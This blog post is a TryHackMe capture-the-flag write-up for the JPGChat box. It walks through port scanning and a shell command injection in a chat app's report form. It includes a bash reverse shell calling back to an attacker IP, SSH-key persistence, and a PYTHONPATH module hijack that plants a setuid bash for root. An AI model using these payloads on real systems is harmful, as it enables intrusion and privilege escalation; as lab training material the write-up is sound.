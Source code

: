 ```yaml
---
layout: blog.html
title: "TryHackMe - JPGChat Writeup"
date: 2021-08-17
---
```


[JPGChat](https://tryhackme.com/room/jpgchat) was a very quick and easy box, but it does have a simple OSINT step that was a bit of fun to follow.
<!-- more -->

## Nmap Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versatile tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to instead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-p`: Scan specific ports. `-p<n>` will scan a specific port, and `-p-` scans every port from 1 to 65,535. While doing a full port scan is good, it can take a while, so it's good to let that one run while you're doing other tasks.

We'll run two Nmap scans. The first one will scan the top 1000 ports that are listening to give us a strong starting point, and the second scan will run in the background and check every possible port. Since this second scan will take longer, we can let it run in the background while we work on other things.

```bash
nmap -sC -sV -v -oN nmap-initial.nmap 10.10.54.184
nmap -p- -v -oN nmap-allports.nmap 10.10.54.184
```

Nmap finds two open ports: port 22 running SSH, and port 3000. While Nmap can't identify what service is running, it does try to give us some information that we can use to identify the service ourselves.

```
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We get that same message if we try to connect using Netcat.

``` 
$ nc 10.10.54.184 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

There are two important facts that will help us proceed:

1. The name of the service is JPChat
2. The source code for the application is on GitHub somewhere.

## Command Injection

A quick Google search finds us a [GitHub repository](https://github.com/Mozzie-jpg/JPChat), and checking the source code seems to line up with the welcome message we got when connecting, so it's probably safe to assume this is the same application.

Inspecting the source code of the application, there's something interesting in the "report" function.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The input fields for our name and report are both passed to `os.system` without any kind of filtering. This means we can probably break out of the command that was intended to be run and run our own arbitrary commands.

We'll use a single-quote to break out of the initial `bash -c` command, add a semicolon to specify that we want to start a new command, and end things off with a pound sign to comment out the rest of the line. We can do a simple proof-of-concept before we actually start running anything malicious.

```
[REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami #
your report:
'; #

wes
```

Our `whoami` command gives us a username back, meaning we do indeed have successful command injection. Now we can build out a reverse shell to get proper access to the box. If you've never built a reverse shell before, there are [plenty of online resources](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to help you out. Below is one of the more basic and common bash reverse shells.

```
'; bash -c 'bash -i >& /dev/tcp/10.13.14.52/9001 0>&1'; #
```

We land as the `wes` user, who has access to the user flag. We know SSH is listening on the box, so while we're here we can also drop an SSH key in to give us better persistence. An SSH session will just be a much better experience than a reverse shell, plus it opens up potentially useful features like file transfers and port forwarding.

## Privilege Escalation
We'll start with some basic manual enumeration before we get into anything automated. There aren't any interesting files in `wes`'s home directory, but `sudo -l` gives us a useful find.

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

There are two things we should take away from this information:

1. `wes` can run the `test_module.py` script as root without entering a password.
2. The `PYTHONPATH` environment variable will be retained when running commands with `sudo`

The `test_module.py` script is only writeable by root, meaning we can't just edit it, so we'll need to find another way to exploit that script.

If you aren't already familiar with Python's environment variables, a quick Google search will show you that the `PYTHONPATH` variable declares the location that Python should look for modules and packages. We can read the contents of the `test_module.py` and see that it imports the `compare` module. If we could make our own malicious `compare` module and force the script to load it with the `PYTHONPATH` variable, that should be enough to root the box.

```python
import os

class compare:
  def Str(s1,s2,s3):
    os.system('cp /bin/bash /bin/sbash')
    os.system('chmod +s /bin/sbash')
```

This script creates a copy of `bash` and then sets the [setuid bit](https://man7.org/linux/man-pages/man2/setuid.2.html) on that copy, which will give us a root shell if we run the copy with the `-p` flag. We'll create a folder to store our script in, save it as `compare.py`, and add that folder to the `PYTHONPATH` variable.

```bash
export PYTHONPATH=/home/wes/mod
sudo python3 /opt/development/test_module.py
/bin/sbash -p
```

We now have root access and can grab the root flag.